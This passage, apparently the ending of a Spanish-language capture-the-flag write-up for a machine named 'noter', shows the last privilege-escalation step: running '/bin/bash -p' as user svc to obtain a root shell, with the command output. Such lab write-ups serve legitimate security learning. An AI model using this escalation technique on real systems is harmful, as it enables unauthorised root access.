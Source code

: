 Ejecutamos el binario `bash` con privilegios (`-p`) y nos convertimos en `root`:
```shell
svc@noter:~/tmp$ /bin/bash -p
bash-5.0\# whoami
root
bash-5.0#
```

¡Happy Hacking!